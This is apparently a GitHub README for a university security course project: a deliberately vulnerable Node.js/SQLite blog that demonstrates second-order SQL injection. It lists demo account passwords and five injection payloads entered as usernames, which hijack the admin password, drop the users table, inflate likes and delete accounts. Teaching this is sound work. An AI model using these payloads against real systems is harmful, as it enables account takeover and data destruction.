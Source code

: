 ### TDA602 Course Project - Second-Order SQL Injection

This project demonstrates a second-order SQL injection vulnerability in a blog website.
The code is written in Node.js and SQLite, and this is a self-made blog created and designed by us. We intentionally added some lack of security measures to make the second-order SQL injection attacks possible, allowing us to demonstrate the vulnerability and emphasize the importance of proper security practices when developing web applications.

Users can create new accounts and write blog posts after logging in. Each post can be liked once, 
and the posts are sorted by the number of likes, with the most liked posts appearing at the top. 
As an admin, you have also the privilege to remove these posts.
The second-order injection attack can be performed by registering a new account with a malicious SQL 
command in the username field and then updating the password. Further details are provided below.

## Current Accounts:

Admin - Username: "Admin", Password: "dontHack"

Ava - Username: "Ava", Password: "password1"

JARVIS - Username: "JARVIS", Password: "password2"

Skynet - Username: "Skynet", Password: "password3"


## Second-Order Injection Attacks:

To perform a second-order SQL injection attack, first register a new user with an SQL injection command as the username. 
Then, log in as the new user and update the password. Afterward, the SQL command will be executed.

Examples of second-order SQL injection attacks:

1) Change the Admin's password (not the "Admin’ —" account):

```sql
Admin' --
```

2) Drop all users:

```sql
'; DROP TABLE users --
```

3) Add likes to a specific blog post (replace id with the blog post ID you want to modify, same with amount of likes):

```sql
'; UPDATE blog_posts SET number_likes = number_likes + 10 WHERE id = 1 --
```

4) Remove the new account
```sql
' ; DELETE FROM users WHERE ROWID = (SELECT MAX(ROWID) FROM users) --
```

5) Remove last account and any other you specify
```sql
' ; DELETE FROM users WHERE ROWID = (SELECT MAX(ROWID) FROM users) OR username = "'; UPDATE blog_posts SET number_likes = number_likes + 10 WHERE id = 1 --" --
```


## Images of the blog website:

#### Login and Register:

<img src="Screenshot 2023-04-17 at 12.33.24.png" alt="My Image" style="max-width: 70%;">




#### Logged in as admin (only difference is the delete button):


<img src="Screenshot 2023-04-17 at 12.34.25.png" alt="My Image" style="max-width: 70%;">

#### Create post and update password:

<img src="Screenshot 2023-04-17 at 12.34.34.png" alt="My Image" style="max-width: 70%;">

## Run the code
To run the code, write "node app.js" in the terminal
